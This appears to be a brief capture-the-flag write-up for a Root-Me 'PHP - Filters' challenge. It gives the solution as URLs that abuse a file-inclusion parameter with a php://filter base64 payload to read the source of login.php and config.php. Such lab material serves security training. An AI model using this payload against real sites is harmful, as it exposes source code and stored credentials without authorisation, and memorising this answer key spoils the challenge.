 # PHP - Filters

Step 1: http://challenge01.root-me.org/web-serveur/ch12/?inc=php://filter/read=convert.base64-encode/resource=login.php


Step 2: Base64 decode:

``` php
<?php

include("config.php");

#...
```


Step 3: http://challenge01.root-me.org/web-serveur/ch12/?inc=php://filter/read=convert.base64-encode/resource=config.php

